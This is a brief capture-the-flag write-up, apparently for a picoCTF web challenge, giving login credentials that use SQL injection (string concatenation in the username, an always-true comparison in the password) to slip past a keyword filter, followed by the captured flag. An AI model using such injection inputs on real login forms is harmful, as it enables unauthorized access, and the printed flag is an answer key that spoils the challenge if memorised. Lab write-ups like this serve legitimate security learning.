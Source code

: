 Used these credentials which bypass the filter.

```
Username: ad'||'min
Password: a' IS NOT 'b
```

Flag:
```
picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
```
